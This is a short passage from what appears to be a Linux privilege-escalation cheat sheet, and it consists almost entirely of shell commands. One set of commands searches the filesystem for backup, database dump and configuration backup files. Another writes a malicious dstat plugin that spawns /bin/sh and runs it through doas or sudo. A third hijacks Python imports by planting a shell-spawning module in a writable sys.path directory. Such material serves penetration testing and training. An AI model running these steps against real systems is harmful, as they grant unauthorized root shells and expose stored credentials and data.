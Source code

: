 ### Backup Files
```bash
# Find backup files
find / -name "*.bak" -o -name "*.backup" -o -name "*.old" -o -name "*~" 2>/dev/null

# Database backups
find / -name "*.sql" -o -name "*.dump" -o -name "*.db" 2>/dev/null

# Configuration backups
find /etc -name "*.bak" -o -name "*.old" -o -name "*.orig" 2>/dev/null
```

---

## Application-Specific Exploits

### dstat Plugin Exploitation
```bash
# Check dstat plugin directories
find / -name "*dstat*" -type d 2>/dev/null
ls -la /usr/share/dstat
ls -la /usr/local/share/dstat

# Check permissions on plugin directory
ls -la /usr/local/share/dstat

# Create malicious dstat plugin
cat > /usr/local/share/dstat/dstat_exploit.py << 'EOF'
import os
os.execv("/bin/sh", ["sh"])
EOF

# Execute with doas/sudo
doas /usr/bin/dstat --exploit
```

### Python Library Hijacking
```bash
# Check Python path
python -c "import sys; print('\n'.join(sys.path))"

# Find writable Python directories
python -c "import sys; print('\n'.join([p for p in sys.path if __import__('os').access(p, __import__('os').W_OK)]))"

# Create malicious module
echo 'import os; os.execv("/bin/sh", ["sh"])' > /writable/python/path/exploit.py

# Import in vulnerable application
python -c "import exploit"
```
